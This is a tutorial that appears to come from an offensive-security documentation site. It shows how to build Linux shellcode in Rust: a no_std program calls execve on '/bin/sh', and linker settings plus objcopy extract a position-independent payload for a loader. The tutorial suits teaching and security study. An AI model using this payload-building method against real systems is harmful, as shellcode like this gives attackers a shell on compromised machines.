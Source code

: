 +++
title = "Generate shellcode for Linux"
weight = 3
+++

We're going to look at how to generate shellcode for Linux from code written in Rust.

We'll be basing ourselves on a technique developed by Sylvain Kerkour, which consists in producing completely independent code (PIC) and extracting the code from the binary with "objcopy".

For our example, we're going to develop a shellcode that will simply execute a shell with "/bin/sh". To do this, we're going to use the "execve" system call, the documentation for which can be found here: https://x64.syscall.sh/

Here's the content of our Rust code:
```
# src/main.rs

#![no_std]
#![no_main]

use core::arch::asm;

#[cfg(not(test))]
#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}

#[no_mangle]
unsafe fn _start() {
    asm!(
        "syscall",
        in("rax") 59,
        in("rdi") "/bin/sh\0".as_ptr(),
        in("rsi") 0,
        in("rdx") 0,
    );
}
```

Here, we start by telling Cargo that we're going to compile our program without the standard library, which is essential if we're to obtain independent code.

We then rename our main function "_start", as this is the real entry point into Linux.

Next, we call the "syscall" assembly instruction, placing the right values in the right registers according to the documentation:

![alt text](../generate_shellcode_for_linux_img1.png)

The code is relatively simple, but now we need to fill in some additional configurations for Cargo to produce a valid binary:
```
# .cargo/config.toml

[build]
rustflags = [
    "-C", "link-arg=-nostdlib", 
    "-C", "link-arg=-static", 
    "-C", "link-arg=-Wl,-T./shellcode.ld,--build-id=none", 
    "-C", "relocation-model=pic"
]
```

These parameters tell Cargo to produce a PIC (Position Independent Code) and the linker to use the section layout configured in the "shellcode.ld" file:
```
# shellcode.ld

ENTRY(_start);

SECTIONS
{
	. = ALIGN(16);
	.text :
	{
		*(.text.prologue)
		*(.text)
		*(.rodata)
	}
	.data :
	{
		*(.data)
	}

	/DISCARD/ :
	{
		*(.interp)
		*(.comment)
		*(.debug_frame)
	}
}
```

Here, we merge the "rodata" section, which contains the static variables, with the "text" section, which contains the code, so that our shellcode can read its variables independently.

All that remains is to compile our code to produce the shellcode, by compiling our program with the "cargo build --release" command, then we just have to extract the shellcode using the following command:

```objcopy -O binary shellcode/target/release/shellcode shellcode.bin```


You can then load the "shellcode.bin" file into your favorite loader:

![alt text](../generate_shellcode_for_linux_img2.png)

## Conclusion
Now you've got all you need to generate shellcode for Linux.
